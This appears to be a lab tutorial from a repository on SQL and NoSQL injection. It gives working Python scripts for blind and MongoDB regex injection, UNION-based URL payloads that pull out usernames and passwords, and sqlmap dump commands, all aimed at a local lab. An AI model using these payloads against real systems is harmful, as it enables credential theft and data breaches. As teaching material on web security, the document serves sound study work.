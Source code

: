 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
- `select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
- `select column_name from information_schema.columns where table_name=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string

characters = string.printable
s = requests.session()

target = "http://0.0.0.0/api/sqliBlind"

def get_one_char(payload):
    for c in characters:
        response = s.post(target,json = {
            'username' : f"a' or ({payload})={ord(c)}  -- -",
            'password' : 'foo'
            }).json()
        if response['data'] == True:
            return c
    return None

def dump_tables():
    tables = ""
    payload = "select ascii(mid(group_concat(table_name),{index},1)) from information_schema.tables where table_schema=database()"
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        tables, index = table + c , index + 1
        print('[+] table = ',tables)
        c = get_one_char(payload.format(index=index))
    return tables

def dump_columns(table_name):
    columns = ""
    payload = "select ascii(mid(group_concat(column_name),{index},1)) from information_schema.columns where table_name='%s'"%(table_name)
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        columns, index = columns + c, index + 1 
        c = get_one_char(payload.format(index=index))
    return columns

table = dump_tables()

print('\n-----------\n[*] tables found: ', table)

for t in table.split(','):
    print(f'[*] columns of {t} found: ',dump_columns(t))
```

### 2.3. Nosql injection
```
import requests, string
req = requests.session()
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"

def blind(data):
    for char in arr:
        res = req.post('http://0.0.0.0/api/sqliMongo',json={'username':'admin','password':{"$regex": f"^{data}{char}"}}).json()
        if res['data']:
            return char
    return None        

def dump_data():
    data = '' 
    while True:
        char = blind(data)
        if char == "$":
            return data 
        data += char 
        print('[+] password: = ',data)

def detect_sqli():
    res = req.post('http://0.0.0.0/api/sqliMongo',json={'username': {"$ne" : 'a'},'password':  {"$ne" : 'a'} }).json()
    print(res)

print('[+] password found : ',dump_data())

```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -u url_victim --batch --current-db` -> get name of database
- use: `sqlmap -u url_victim --batch -D name_db --dump-all ` -> show all data of that database
(`can use file_request to dynamic scan`)



## 3. Step to step exploit this lab
### Prepare to deploy lab
|Command | Uses |
|--------|------|
|make build | build image before deploy lab|
|make up | deploy lab|
|make down | stop lab|
|make logs | show logs|

### 3.1. SQLi Union
- click [me](http://0.0.0.0/sqliUnion.php) to redirect to this lab
- in this lab
![](https://raw.githubusercontent.com/magnetohvcs/payload/master/image/Screen%20Shot%202022-06-12%20at%2014.39.25.png)
- enter any number to input
![](https://raw.githubusercontent.com/magnetohvcs/payload/master/image/Screen%20Shot%202022-06-12%20at%2014.54.46.png)
- modify url: `http://0.0.0.0/sqliUnion.php?id=1` to 
`http://0.0.0.0/sqliUnion.php?id=0 union select 1,2,3,4,5,6` and we see it show 1,2,3,4,5,6
![](https://raw.githubusercontent.com/magnetohvcs/payload/master/image/Screen%20Shot%202022-06-12%20at%2014.57.45.png)
- now, we can use query show schema in order to get name of table and column
```
select group_concat(table_name) from information_schema.tables where table_schema=database()
select group_concat(column_name) from information_schema.columns where table_name='table_name'
```
- -> `group_concat` function like `join` function in python, strings are concatenated by '`,`'
- -> modify url as same as `http://0.0.0.0/sqliUnion.php?id=0 union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()` to get name of tables
- -> modify url as same as `http://0.0.0.0/sqliUnion.php?id=0 union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name='users'` to get name columns of that table, example table: `users`
- -> modify url as same as `http://0.0.0.0/sqliUnion.php?id=0 union select 1,2,3,group_concat(username),group_concat(passwd),6 from users` to get data of table users

### 3.2. SQLi Blind Boolean
- clike [me](http://0.0.0.0/sqlBlind.html) to redirect this lab
- enter username, password into input like image
![](https://raw.githubusercontent.com/magnetohvcs/payload/master/image/Screen%20Shot%202022-06-12%20at%2015.38.55.png)
- my mindset:
- - use `-- -` to comment any query query, example:
`select username, password from users where username='aa' or 1=1 -- -' and passowrd='a'`
- - get each character in schema and equal it
- - use python to exploit auto with mindset

-  execute command: `python3 tool_exploit/solution.py`
```
admin@Admins-MacBook-Pro 002_sqlinjection % python3 tool_exploit/solution.py
[+] table =  e
[+] table =  em
[+] table =  emp
[+] table =  empl
[+] table =  emplo
[+] table =  employ
[+] table =  employe
[+] table =  employee
[+] table =  employees
[+] table =  employees,
[+] table =  employees,j
[+] table =  employees,jo
[+] table =  employees,job
[+] table =  employees,jobs
[+] table =  employees,jobs,
[+] table =  employees,jobs,u
[+] table =  employees,jobs,us
[+] table =  employees,jobs,use
[+] table =  employees,jobs,user
[+] table =  employees,jobs,users

-----------
[*] tables found:  employees,jobs,users
[*] columns of employees found:  id,name,salary
[*] columns of jobs found:  id,title,salary,location,type,date
[*] columns of users found:  id,username,passwd,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```